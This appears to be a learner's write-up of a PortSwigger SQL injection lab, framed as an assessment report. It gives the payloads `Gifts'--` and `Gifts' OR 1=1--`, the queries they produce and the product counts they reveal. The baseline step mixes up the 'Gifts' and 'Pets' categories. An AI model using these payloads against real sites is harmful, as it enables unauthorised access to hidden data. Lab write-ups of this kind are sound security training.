 # SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

![Lab banner – PortSwigger Apprentice level](1.png)

---


## Executive Summary

During a controlled assessment of the demo web store provided by PortSwigger (“SQL Injection in `WHERE` clause – retrieve hidden data” lab), we confirmed that an attacker can manipulate the site’s product-filtering feature and force the database to return *all* records—including items the business meant to keep private.
Put simply, the application trusts text taken straight from the web address (URL) and passes it to the database without checking it. By subtly altering that text, we could **bypass the “show-only-released-items” safety check** and view every product in the catalogue.

---

## Description

![Lab banner – PortSwigger Apprentice level](2.png)

---

## Why This Matters to You

* **Data exposure:** Hidden or unreleased products, prices or SKUs can leak to competitors or the public.
* **Customer trust:** If attackers can pull hidden data, they may also pivot to extract sensitive customer information.
* **Regulatory impact:** Unauthorised data disclosure may breach privacy or consumer-protection laws.

---


## Step-by-Step Walk-Through

*(Jargon kept minimal—technical terms are boxed and explained in plain language.)*

| # | What we did                                                                                                             | What the application tried to do                                                                                                | What actually happened & why                                                                                                                                                                |
| - | ----------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 1 | **Established a baseline** by visiting `/filter?category=Gifts` (no tricks).                                             | Database runs a normal search: `SELECT * FROM products WHERE category='Pets' AND released=1`                                    | Page shows **3 released pet products**—exactly as expected.                                                                                                                                 |
| 2 | **Neutralised the safety check**. We added a short “comment” symbol recognised by databases: `/filter?category=Gifts'--` | Intended query still tacks on `AND released=1`, but everything after the `--` is ignored (the database treats it as a comment). | Query becomes `SELECT * FROM products WHERE category='Gifts'-- ' AND released=1` ⇒ the **released-only rule is now skipped**. The page shows **4 products** (including one unreleased item). |
| 3 | **Removed the category filter altogether**. We supplied `/filter?category=Gifts' OR 1=1--`                               | The `OR 1=1` condition is always true, so the database thinks *every* row matches.                                              | Final query: `SELECT * FROM products WHERE category='Gifts' OR 1=1-- ' AND released=1` ⇒ the site lists **every single product**, regardless of category or release status.                  |

![Lab banner – PortSwigger Apprentice level](3.png)
> URL-encoded payload for (`Gifts' OR 1=1--`)
---

## Observable Output

| Test                              | Visible result            | What it proved                       |
| --------------------------------- | ------------------------- | ------------------------------------ |
| Baseline (`Gifts`)                 | 3 items                   | Normal operation.                    |
| Bypass released check (`Gifts'--`) | 4 items                   | Hidden/unreleased items now visible. |
| Show all (`Gifts' OR 1=1--`)       | 12 items (all categories) | Full catalogue disclosure confirmed. |


---


## Conclusion

The demonstration shows how a simple, one-line tweak to a URL can undo critical business logic and expose private inventory. 



